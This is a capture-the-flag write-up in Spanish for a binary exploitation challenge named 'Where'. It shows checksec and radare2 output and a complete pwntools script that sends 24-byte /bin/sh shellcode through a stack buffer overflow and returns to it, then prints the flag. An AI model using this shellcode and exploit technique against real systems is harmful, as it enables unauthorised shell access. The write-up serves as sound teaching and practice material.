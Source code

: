 # Where

```
checksec --file=where/where/chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		2		where/where/chal
```

- El binario no tiene canario, o sea hay buffer overflow seguro en la entrada

- Tiene NX disabled, asi que se puede ejecutar codigo del stack

- No tiene PIE, asi que no necesitamos hallar la direccion base del binario para calcular direcciones de retorno porque estas no cambian.

Nos filtran una direccion del stack 8 bytes antes del inicio de nuestro buffer:
```
[0x7f4e1a4c5b40]> dc
I have put a ramjet on the little einstein's rocket ship
However, I do not know WHERE to go on the next adventure!
Quincy says somewhere around here might be fun... 0x7ffec6979dd8
INFO: hit breakpoint at: 0x40122c
[0x0040122c]> dc
AAAAAAAAAAAAAAA
INFO: hit breakpoint at: 0x401244
[0x0040122c]> pxQ 64@ rsp
0x7ffec6979dd0 0x0000000000000000 section.
0x7ffec6979dd8 0x0000000000000000 section.      # Direccion filtrada
0x7ffec6979de0 0x4141414141414141               # Nuestra entrada: 'AAAAAAAA'
0x7ffec6979de8 0x0a41414141414141               # 'AAAAAAA'
0x7ffec6979df0 0x00007ffec6979e00 rbp
0x7ffec6979df8 0x00007ffec6979e90 rbp+144
0x7ffec6979e00 0x0000000000000001 r8
0x7ffec6979e08 0x00007f4e1a2bbd68
```

La idea es escribir shellcode en el stack, retornar al comienzo de nuestra entrada para ejecutarlo.

El problema es que la entrada es pequeña, 48 bytes - 1 para '\0' que toma fgets:
```
|           0x00401237      be30000000     mov esi, 0x30               ; '0' ; 48
|           0x0040123c      4889c7         mov rdi, rax
|           0x0040123f      e85cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

Tenemos solo 47 bytes pero necesitamos inyectar una carga util de:

`shellcode` + `direccion_retorno_en_el_stack` 

Pero los shellcodes para `/bin/cat flag.txt` y `/bin/sh` que trae pwntools son muy grandes (48 y 44 bytes respectivamente), y eso equivale a 48+8=56 y 44+8=52 bytes, es demasiado.

Afortunadamente me encontre este shellcode para `/bin/sh` en shellstorm de solo 24 bytes :)

https://shell-storm.org/shellcode/files/shellcode-909.html

``` python
from pwn import *

elf = context.binary = ELF("./chal")
context.arch='amd64'
#io = process("./chal")
io = remote("where.harkonnen.b01lersc.tf",8443,ssl=True,sni=True)

#gdb.attach(io,gdbscript="""
#           break *main+103
#           """)

# for test return
main = 0x00000000004011dd

# Get address
io.recvuntil(b"Quincy says somewhere around here might be fun... ")
stack_addr = int(io.recvline().strip(),16)
buffer_addr = stack_addr + 0x8

# NX
byteList = [0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54, 0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05]
sh = bytes(byteList)
payload = sh.ljust(40,b"\x90") + p64(buffer_addr)
io.sendline(payload)
io.interactive()
```

` bctf(s0_th@ts_wh3r3_Our_ch1ldh00d_w3nt_d06fa4ee84a2e731)`



